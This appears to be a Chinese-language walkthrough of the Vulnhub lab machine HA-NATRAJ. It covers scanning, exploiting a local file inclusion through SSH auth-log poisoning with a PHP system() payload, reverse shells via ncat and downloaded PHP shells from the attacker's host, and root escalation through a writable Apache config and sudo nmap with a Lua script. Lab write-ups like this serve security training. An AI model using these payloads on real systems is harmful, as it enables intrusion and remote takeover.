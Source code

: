 ```yaml
---
layer: article
title: Vulnhub 489 HA-NATRAJ
tags: pentest vulnhub writeup
---
```


考点：文件包含、权限继承、lua

靶机链接：https://www.vulnhub.com/entry/ha-natraj,489/

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| natraj     | 10.0.2.6  |

VirtualBox直接导入无法获得IP，解决方法见**[Vulnhub靶机无法获得IP](https://www.iihack.com/2022/08/08/vulnhub-vm-ip.html)**。

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.6
$ nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来漏洞大概率只能出在web应用上了。

### WEB测试

查看源代码，全静态，看看有没有二级目录

#### dirb

```bash
$ dirb http://10.0.2.6/
-----------------
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.0.2.6/ ----
==> DIRECTORY: http://10.0.2.6/console/                                                                            
==> DIRECTORY: http://10.0.2.6/images/                                                                             
+ http://10.0.2.6/index.html (CODE:200|SIZE:14497)                                                                 
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)  
```

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.6/
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Target: http://10.0.2.6/
[04:01:31] Starting:                                         
[04:01:51] 301 -  306B  - /console  ->  http://10.0.2.6/console/            
[04:01:51] 200 -  936B  - /console/
[04:01:56] 200 -    5KB - /images/                                          
[04:01:56] 301 -  305B  - /images  ->  http://10.0.2.6/images/              
[04:01:56] 200 -   14KB - /index.html                                       
[04:02:12] 403 -  273B  - /server-status/                                   
[04:02:13] 403 -  273B  - /server-status                                    

Task Completed 
```

发现存在console目录

![1]( https://static.iihack.com/vulnhub/489/1.JPG)

### 漏洞发现

访问`http://10.0.2.6/console/file.php`页面空白，盲猜这里有个file参数，可能存在本地文件包含LFI。

```bash
http://10.0.2.6/console/file.php?file=/etc/passwd
```

![2]( https://static.iihack.com/vulnhub/489/2.JPG)

## 获得权限

尝试包含`/var/log/apache2/access.log`等失败，发现包含`/var/log/auth.log`成功了

### 本地测试

测试写入`/var/log/auth.log`文件

```bash
$ ssh '<?php system($_GET[123]);?>'@127.0.0.1
```

![3]( https://static.iihack.com/vulnhub/489/3.JPG)

看效果写入成功

### 靶机测试

```bash
$ ssh '<?php system($_GET[123]);?>'@10.0.2.6 
```

![4]( https://static.iihack.com/vulnhub/489/4.JPG)

`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444`创建了端口连接，但是`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444 -e /bin/sh`失败了，说明这个靶机的`nc`没有`-e`参数

#### 思路一

可使用ncat代替nc

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=ncat 10.0.2.15 444 -e /bin/bash
```

成功接收反弹

#### 思路二

写一句话文件

在auth.log发现目录`/var/www/html/console`

使用python快速本地起http服务`python -m 'http.server' 80`

尝试下载文件写入目录`/var/www/html/console/`写入失败

尝试下载文件写入目录`/var/www/html/`写入成功

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/2.php -O /var/www/html/2.php
```

使用antsword连上

![5]( https://static.iihack.com/vulnhub/489/5.JPG)



#### 思路三

修改kali自带的php反弹shell脚本 `/usr/share/webshells/php/php-reverse-shell.php`

![6]( https://static.iihack.com/vulnhub/489/6.JPG)

下载反弹shell脚本到/tmp目录并执行

```
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/php-reverse-shell.php -O /tmp/1.php|php /tmp/1.php
```

成功接收反弹

## 提权

切换到交互式shell

```bash
$ whereis python
python: /usr/bin/python3.6m /usr/bin/python3.6 /usr/lib/python3.6 /usr/lib/python3.7 /usr/lib/python2.7 /etc/python3.6 /usr/local/lib/python3.6
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'
```

上传[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)并运行发现apache2配置文件可以更改

![7]( https://static.iihack.com/vulnhub/489/7.JPG)

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

### natraj

修改/etc/apache2/apache2.conf将运行权限修改为natraj，重启靶机系统，反弹shell，再次运行linpeas.sh未发现有用信息

### mahakal

修改/etc/apache2/apache2.conf将运行权限修改为mahakal，重启靶机系统，反弹shell，再次运行linpeas.sh

发现可以免密运行`sudo nmap`

![9]( https://static.iihack.com/vulnhub/489/9.JPG)

想到nmap可以执行script，而script是lua语言编写，应该可以执行系统命令

参考 https://www.lua.org/pil/22.2.html 编写文件555

![10]( https://static.iihack.com/vulnhub/489/10.JPG)

通过`nmap`加载555

![11]( https://static.iihack.com/vulnhub/489/11.JPG)

成功接收root反弹

![12]( https://static.iihack.com/vulnhub/489/12.JPG)
